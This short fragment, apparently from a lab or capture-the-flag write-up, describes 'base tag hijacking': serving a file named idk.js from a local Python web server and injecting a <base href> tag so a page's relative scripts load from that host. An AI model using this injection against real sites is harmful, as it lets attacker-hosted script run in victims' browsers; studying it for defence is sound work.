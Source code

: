 ### base tag hijacking
host a file named idk.js on your localhost (e.g. python3 -m http.server)

&nbsp;

search for
```html
<base href="http://localhost:8000">
```
